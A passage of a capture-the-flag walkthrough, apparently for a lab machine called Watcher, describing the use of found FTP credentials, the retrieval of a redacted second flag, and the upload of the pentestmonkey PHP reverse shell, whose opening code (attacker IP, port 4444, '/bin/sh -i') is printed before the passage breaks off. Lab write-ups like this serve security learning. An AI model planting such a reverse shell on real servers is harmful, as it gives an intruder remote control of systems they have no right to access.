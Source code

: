 ![img](/assets/thm_watcher/bg_6.png)

And We found credentials of the ftp!, let's check the ftp user .

![img](/assets/thm_watcher/bg_7.png)

### Flag 2

As you can see we found flag_2.txt and get it.
```
$ cat flag_2.txt              
FLAG{f------------e}
```
Now as you can see in ftp there is have files which is can be uploaded. then i want try to upload php-revershell.php from pentest monkey which contain : 
```bat
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.47.251';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
```